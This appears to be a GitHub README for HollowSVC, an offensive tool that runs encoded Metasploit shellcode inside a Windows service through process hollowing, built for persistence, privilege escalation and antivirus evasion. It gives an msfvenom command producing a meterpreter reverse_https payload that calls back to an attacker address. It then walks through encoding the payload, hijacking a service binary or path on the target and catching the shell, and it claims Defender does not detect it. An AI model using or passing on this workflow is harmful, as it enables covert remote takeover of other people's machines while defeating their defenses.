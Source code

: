 <p align="center">
    <img src="/img/8-EoupSza0CCIElrl.png" alt="Logo" width="350" height="350">
</p>
This program is a Windows Service with the process hollowing technique that runs shellcode , it requires the ROT "encrypted" shellcode that the user will create with the HollowCrypt program. 
I created this because there were moments where I needed a custom and easy way to run metasploit shellcode on a windows service to persist/privilege escalate, and using the common tools would trigger my binaries . . 


## How to use it

First, we need to create our shellcode:
```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.147 LPORT=443 EXITFUNC=thread -f csharp
```

Then, edit the HollowCrypt source code , compile and execute:
```
HollowCrypt.exe
```

After that, replace the encrypted shellcode in the HollowSVC source code. 
Now  compile the service in the arch of your target, setup your listener, hijack the binary/path in the target and run!

## POC
Running service with path to HollowSVC executable:
<p align="center">
  <img src="/img/legitsvc2.png" alt="legitsvc2" width="350" height="350">
</p>

Meterpreter retrieved:
<p align="center">
  <img src="/img/legitsvc3.png" alt="legitsvc3" width="700" height="150">
</p>

Defender FUD:
<p align="center">
  <img src="/img/legitsvc4.png" alt="legitsvc4" width="500" height="350">
</p>
